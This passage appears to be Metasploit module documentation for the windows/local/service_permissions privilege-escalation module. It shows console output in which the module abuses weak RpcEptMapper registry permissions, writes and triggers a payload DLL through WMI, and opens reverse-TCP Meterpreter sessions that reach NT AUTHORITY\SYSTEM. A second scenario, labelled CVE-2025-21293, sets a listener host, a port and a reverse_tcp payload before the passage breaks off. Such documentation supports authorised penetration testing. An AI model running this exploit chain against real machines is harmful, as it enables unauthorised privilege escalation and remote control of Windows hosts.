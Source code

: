 ```

   Id  Name
   --  ----
   0   Automatic


msf exploit(windows/local/service_permissions) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Trying to find weak permissions in existing services..
[-] Request Error 3014: Operation failed: Access is denied. falling back to registry technique
[*] [RpcEptMapper] Checking for weak file permissions
[-] The operation completed successfully.: C:\Windows\system32\svchost.exe
[*] [RpcEptMapper] Checking for weak service permissions
[*] [RpcEptMapper] Could not open service. OpenServiceA error: Access is denied.
[*] [RpcEptMapper] Checking for weak registry permissions
[+] [RpcEptMapper] Created registry key: HKLM\System\CurrentControlSet\Services\RpcEptMapper\Performance
[*] [RpcEptMapper] Writing payload DLL to C:\Users\aliddle\AppData\Local\Temp\njabikLo.dll
[*] [RpcEptMapper] Triggering the payload via WMI...
[*] [localhost] wmic /output:CLIPBOARD /INTERACTIVE:off /node:localhost Path Win32_Perf Get
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.61:50169) at 2020-11-19 12:23:41 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.61:50170) at 2020-11-19 12:23:41 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 4 opened (192.168.159.128:4444 -> 192.168.159.61:50171) at 2020-11-19 12:23:42 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 5 opened (192.168.159.128:4444 -> 192.168.159.61:50172) at 2020-11-19 12:23:42 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[*] Meterpreter session 6 opened (192.168.159.128:4444 -> 192.168.159.61:50173) at 2020-11-19 12:23:42 -0500
[*] Sending stage (200262 bytes) to 192.168.159.61
[+] Deleted C:\Users\aliddle\AppData\Local\Temp\njabikLo.dll
[*] Meterpreter session 7 opened (192.168.159.128:4444 -> 192.168.159.61:50174) at 2020-11-19 12:23:43 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

[CreateServiceA]: https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea

### Scenario: Windows Server 2019. Action: CVE-2025-21293

```
msf exploit(windows/local/service_permissions) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(windows/local/service_permissions) > set lport 6665
lport => 6665
msf exploit(windows/local/service_permissions) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/service_permissions) > set target 1
target => 1
msf exploit(windows/local/service_permissions) > options

Module options (exploit/windows/local/service_permissions):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
```